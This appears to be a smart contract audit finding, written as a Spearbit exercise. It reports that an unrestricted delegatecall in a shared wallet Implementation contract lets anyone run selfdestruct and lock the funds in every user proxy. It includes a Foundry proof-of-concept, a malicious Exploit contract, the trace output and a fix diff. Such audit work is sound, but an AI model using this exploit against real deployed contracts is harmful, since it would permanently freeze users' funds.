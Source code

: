 # Spearbit Writing Exercise

## Wallet Protocol Business Requirments

You are given an implementation for a smart contract wallet. There are two contracts

1. [`Implementation.sol`](contracts/Implementation.sol): Deployed once and used as implementation contract in `Proxy.sol`.
2. [`Proxy.sol`](contracts/Proxy.sol): Each user has a unique `Proxy` deployment with the above implementation. This is a simply proxy contract which delegatecalls the implementation contract. It has an access control check that allows only the owner to use the fallback function.

The idea is that users can keep their funds, for example, ETH or ERC20 tokens in the Proxy. To use these funds, users can execute arbitrary calls and arbitrary delegatecalls by using the implementation contract (it has `callContract` and `delegatecallContract`). The implementation contract is deployed only once and reused to save gas.

## Implementation deletion causes DoS of users proxy contracts

**Severity:** Critical

**Impact:** 
An attacker could delete the implementation contract deployed for user proxy contracts. All users funds deposited to their proxy contracts could be stuck forever without any option to withdraw.

**Context:** [Implementation.sol#L9-L22](https://github.com/shabarkin/writing-exercise/blob/develop/src/Implementation.sol#L9-L22)

While reviewing the `Proxy` and `Implementation` smart contracts I have observed that `Implementation` contract is defined as a normal deployable smart contract, this allows an attacker to cause the DoS attack for all users of Proxy contract.
By application business requirment users should have ability to execute arbitrary `call` and arbitrary `delegatecall` functions by using their `Implementation` contract, however the current implementation of this has a side affect.

The `delegatecall` function preserves the state of the calling smart contract, but executes logic of the called smart contract/library. In this architecture the `Implementation` smart contract is deployed as independent smart contract, what means that anyone within the Ethereum network could invoke their functions. 

By deploying the malicious smart contract with a function, which defines `selfdestruct` operation, allows an attacker to "selfdelete" the `Implementation` contract. This may happen, because `Implementation.delegatecallContract` function uses `delegatecall` operation on the arbitrary address and arbitrary calldata. It will execute the logic of malicious function within the state of the `Implementation` contract, what means that the `selfdectruct` operation will be executed within the state of `Implementation` contract. 

The denial of service attack is achieved, because there will be no way to update the implementation of Proxy contract or to withdraw the user funds. Upon deletion of `Implementation` contract, all users funds holded within Proxy contracts will be stuck there forever.

The development and test running were completed with [Foundry](https://book.getfoundry.sh/) framework.


Example of code snippet for the main exploitation business logic: 
```solidity
// Proxy and Implementation contracts deployment
impl = new Implementation();
proxy = new Proxy(address(impl), deployer);

// send funds to deployer account
(bool success,) = deployer.call{value: 1000 ether}("");
if (!success){
    revert("funds are not deposited");
}

// Exploit contract deployment
vm.startPrank(attacker);
exploit = new Exploit();
vm.stopPrank();

// critical: The implementation deletion
vm.startPrank(attacker);

// pack calldata for Exploit contract
bytes memory _calldataExploit = abi.encodeWithSelector(exploit.destroy.selector, attacker);
// delete implementation contract through delegate call on the `selfdestruct`
impl.delegatecallContract(address(exploit), _calldataExploit);

vm.stopPrank();
 ```
 
Example of the check to determine the existance of the contract:
 ```solidity
 function _checkContractExistance(address _contract) private view returns (bool){
    uint256 size;
    assembly {
        size := extcodesize(_contract)
    }
    return size != 0;
}
 ```

Example of the malicious smart contract:
```solidity
contract Exploit {
    address immutable public owner = address(0x02);
    address public implementation;

    function destroy(address _to) public {
        selfdestruct(payable(_to));
    }
}
```

Download:
```
git clone https://github.com/shabarkin/writing-exercise.git
```

Execute the exploit test with Foundry:

```bash
forge test -vvvvv
```

Console output:
```log
Running 1 test for test/Proxy.t.sol:SpearbitImplementationDestructTest
[PASS] testImplementationDestruct() (gas: 8337)
Logs:
  Implementation contract exists: false

Traces:
  [490544] SpearbitImplementationDestructTest::setUp() 
    ├─ [123771] → new Implementation@0xCe71065D4017F316EC606Fe4422e11eB2c47c246
    │   └─ ← 618 bytes of code
    ├─ [96860] → new Proxy@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   └─ ← 371 bytes of code
    ├─ [3000] PRECOMPILE::ecrecover{value: 1000000000000000000000}() 
    │   └─ ← 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [55532] → new Exploit@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← 277 bytes of code
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [6233] Implementation::delegatecallContract(Exploit: [0xE536720791A7DaDBeBdBCD8c8546fb0791a11901], 0x00f55d9d0000000000000000000000000000000000000000000000000000000000000002) 
    │   ├─ [5257] Exploit::destroy(0x0000000000000000000000000000000000000002) [delegatecall]
    │   │   └─ ← ()
    │   └─ ← 0x
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

  [8337] SpearbitImplementationDestructTest::testImplementationDestruct() 
    ├─ [0] console::log(Implementation contract exists: %s, false) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 417.42µs
```


**Recommendation:**
Change the context of `Implementation` smart contract from contract to library. Update their functions by removing the `payable` 
modifier.

```diff
- contract Implementation {
+ library Implementation {

-   function callContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function callContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success , bytes memory ret) =  a.call{value: msg.value}(_calldata);
        require(success);
        return ret;
    }

-   function delegatecallContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function delegatecallContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success, bytes memory ret) =  a.delegatecall(_calldata);
        require(success);
        return ret;
    }
}
```

**Fix commit:** [87379dc](https://github.com/shabarkin/writing-exercise/commit/87379dc56ce658334e1dd367020aed16e6cdf0d5)
